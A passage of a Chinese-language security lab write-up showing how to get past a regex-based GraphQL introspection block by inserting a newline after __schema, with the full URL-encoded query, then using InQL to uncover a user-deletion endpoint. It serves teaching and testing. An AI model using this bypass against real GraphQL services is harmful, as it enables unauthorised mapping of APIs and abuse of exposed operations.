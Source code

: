 从回显内容中可以看到这里不允许内省，修改查询以在\_\_schema 后包含换行符并重新发送，例如：

```plain
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

[![](assets/1708485015-ca34bff2a5f3037655bf507c37b9a45f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152200-bce8873e-cfc0-1.png)  
从上面可以看到响应现在包含了完整的内省细节，这是因为服务器被配置为排除与 regex "**schema{"匹配的查询，该查询不再匹配，即使它仍然是有效的内省查询，随后我们保存响应报文的内容并使用 InQL 加载文件进行解析操作，可以获取到用户删除操作接口**：

[![](assets/1708485015-0d97e8808e9c8c1bae91c7ced5a3d3f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152221-c946f952-cfc0-1.png)
